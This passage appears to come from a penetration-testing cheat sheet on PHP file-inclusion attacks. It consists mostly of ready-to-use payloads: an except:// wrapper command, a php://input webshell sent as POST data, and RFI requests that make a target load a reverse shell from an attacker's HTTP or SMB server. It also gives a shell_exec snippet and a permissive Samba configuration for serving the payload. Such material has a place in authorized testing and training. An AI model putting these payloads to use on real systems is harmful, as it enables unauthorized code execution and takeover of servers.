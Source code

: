 ```text
/include.php?file=except://id
```

#### Wrapper input://

Interpret php payload sent by POST parameters.

```text
/include.php?file=php://input

POST DATA: <?php system($_GET["cmd"]);?>
```

## Remote File Inclusion \(RFI\)

When we are able to include remote files to the application is synonym of remote code execution. We can include a webshell or a reverse shell.

```text
/usr/share/webshells/php/php-reverse-shell.php
```

Or you can create a php file with command execution or another type of reverse shell:

```text
<?php
$output = shell_exec('whoami 2>&1');
echo "$output";
?>
```

Finally you only need to set up a HTTP server or SMB server and request the rev shell.

```text
/include.php?file=http://ip-addr:port/php-reverse-shell.php
/include.php?file=\\ip-addr\smbserver\php-reverse-shell.php
```

Some times `impacket-smbserver` doesn't works due to the outdated SMB version of the target machine and we need to configure it manually.

```text
❯ cat /etc/samba/smb.conf
[global]
        server role = standalone server
        map to guest = Bad User
        usershare allow guest = yes
        host allow = <ip-target-machine>

[badsmb]
        path = <directory>
        browseable = yes
        read only = no
        guest ok = yes
```

## Looking to RCE
